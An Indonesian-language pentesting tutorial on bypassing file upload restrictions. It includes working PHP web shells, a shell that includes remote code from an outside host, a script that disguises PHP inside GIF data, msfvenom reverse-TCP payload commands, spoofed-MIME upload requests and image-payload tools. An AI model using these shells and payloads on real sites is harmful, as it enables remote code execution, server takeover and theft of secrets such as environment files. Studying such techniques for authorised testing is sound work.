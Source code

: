 # File Upload Injection & Bypass

Kerentanan ini biasanya karena ada kelemahan di web yang akan menjadi target operasi.

Kerentanan ini dari :

- Sistem file yang diupload tidak begitu aman atau begitu terbuka dari tempat penyimpanan dan satu tempat dengan server utama.
- Filterisasi atau sanitasi dari inputan file yang diupload tidak benar-benar menyaring file yang berbahaya
- Programmer masih pemula dan tidak begitu paham tentang testing atau program yang dibuat tidak sampai testing atau QA
- Server yang tidak dihardening
- Program yang begitu umum dan mudah ditebak

Teknik ini biasa dikenal dengan istilah :

- Bypassing File Upload Restrictions
- File Upload Bypass
- Bypass shell Upload

## Langkah yang biasa dilakukan

- Pertama identifikasi sistem dan croscek mana saja yang bisa menjadi kerentanan dengan melihat form yang berisikan upload file
- Upload file biasanya ditemukan di dalam sistem setelah kita login dan untuk masuk login gunakan teknik temukan yang default atua kerentanan pada seseorang yang umumnya menggunakan sesuatu yang umum atau malas untuk mengganti keamanan loginnya.
- Mulai testing. Pada saat pengujian mulailah untuk menggunakan beberapa teknik dari :
  - Melakukan injek pada file yang ingin diupload
  - Menguji hasil file injek file yang akan diupload
  - Akan ditemukan banyak ujicoba agar mengerti bagaimana sistem melakukan filterisasi

## Umumnya programmer melakukan ini saat kita akan melakukan fileupload

1. memfilter validasi ukuran file
2. merubah nama file dari default ke random
3. memfilter validasi jenis file berdasarkan extention yang diizinkan
4. memfilter validasi berdasarkan mime type
5. tempat penyimpanan file satu tempat dengan web utama atau monolit
6. dapat membaca file secara langsung dengan nama file dan tempat penyimpanan yang mudah ditebak
7. memfilter validasi ukuran gambar

proses kerjanya: setelah form mendapatkan file yang diupload ia akan memproses dari validasi hingga menyimpannya didatabase atau memindahkannya ke dalam folder di server

## Bypass File Upload

Melakukan bypass adalah melakukan file upload seperti biasa namun yang berbeda adalah kita akan mengelabui sistem sehingga sistem tidak mengetahui atau tidak dapat membedakan apakah file yang diupload itu berbahaya atau tidak untuk sistem yang sendiri.

Analoginya bayangkan seseorang yang menggunakan baju polisi bisa disangka seorang polisi walaupun sebenarnya dia bukanlah seorang polisi yang sesungguhnya karena umumnya orang hanya menilai dari pakainnya begitu pula kebalikannya.

Seseorang yang berpakaian biasa atau kusuh seperti orang gila tidak akan mengetahui jika dia adalah seorang polisi yang sedang menyamar.

Jadi teknik bypass ini adalah bagaimana membuat sistem tidak menyadarinya.

## Web Shell -> PHP

shell adalah sebuah perwakilan kita untuk bisa membuat kita mengakses dengan bebas sesuatu yang ada didalam tanpa sepengetahuan sebuah atau tanpa disadari.

shell dapat berbentuk macam-macam salah satunya adalah menggunakan PHP pada webserver yang menggunakan PHP pada sistem webnya.

Webservernya juga bervariasi dari apache, nginx dll yang membuat kita minimal harus mengenalnya dan tahu bagaimana ia bekerja.

Menyiapkan webshell itu penting diawal dan biasanya setiap orang memiliki shell favoritnya masing-masing.

Karena umumnya website masih menggunakan PHP maka dari kita mulai dari menggunakan webshell PHP.

1. webshell yang sederhana seperti ini :

`<?php system($_GET['cmd']); ?>`

kode diatas berarti kita bisa melakukan RCE (Remote Code Execution) lewat website yang sedang kita ujicoba. RCE termasuk bug dengan level tinggi karena hak akses di RCE dapat membuat apa saja berdasarkan kode yang kita masukkan. Dari membuat file disistem, mengetahui informasi disistem dan paling parah adalah kita bisa mendapatkan .env atau file environment sistem yang sedang digunakan oleh website tersebut.

eksekusi shell diatas itu sangat sederhana dengan
`<https://namaweb.domain/file?cmd="perintah> yang kita inginkan"

2. contoh webshel sederhana lainnya :

```php
<?php if(isset($_REQUEST['cmd']))
    {   echo "<pre>"; 
        $cmd=($_REQUEST['cmd']); 
        system($cmd); 
        echo "</pre>"; 
        die; 
    }
?>
```

kode diatas akan menampilkan hasilnya lewat tag `<pre>` di halaman web yang berhasil kita bypass.

3. contoh webshell yang diambil dari luar

```php
<?php
include ("http://serverkamu.xyz/shell.php");
?>
```

coding diatas akan lebih dinamis sih dari yang sebelumnya.

webshell yang ke-3 diatas untuk membuatnya menjadi lebih kecil kita bisa melakukan konversi seperti berikut:

```python
    retasin = open ('msgif.gif','rb').read()
    retasin += open ('test.php','rb').read()
    open ('newphp.php','wb').write(retasin)

```

## Payload dengan Msfvenom

ketahui ipadress dengan `ip address`

### Payload APK Reverse-TCP

`msfvenom -p android/meterpreter/reverse_tcp LHOST=ip_server LPORT=4444 -o payload.apk`

### Payload

`msfvenom -p php/meterpreter/reverse_tcp LHOST=ip_server LPORT=4444 -o payload.php`

## File Injection

### Mengubah mime type dan menambahkan extention lainnya

```text
------WebKitFormBoundaryaxpyiPgbbPti10Rw
Content-Disposition: form-data; name="file"; filename="pgadmin.log"
Content-Type: application/octet-stream

isi file yang bisa kita injeksi

------WebKitFormBoundaryaxpyiPgbbPti10Rw--
```

```text
------WebKitFormBoundaryaxpyiPgbbPti10Rw
Content-Disposition: form-data; name="token"; filename="pgadmin.log"
Content-Type: image/jpeg

isi file yang bisa kita injeksi

------WebKitFormBoundaryaxpyiPgbbPti10Rw--
```

### Toolkit

- jhead `jhead -ce namafile.jpg`
- xxd `xxd namafile.ext`
- pixload `pixload-jpg --payload "$(cat payload.php)" namafile.jpg`
- exiftool

## Konversi file

- konversi file ke jpg `mogrify -f jpg namafile.png`
- konversi semua file ke jpg `mogrify -f jpg *.png`

Inspirasi :

- <https://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html>
- <https://pentestlab.blog/2012/11/29/bypassing-file-upload-restrictions/>
- <https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass>
- <https://infosecwriteups.com/laravel-8-x-image-upload-bypass-zero-day-852bd806019b>

Security Researcher | Pentester (Penetration Tester)
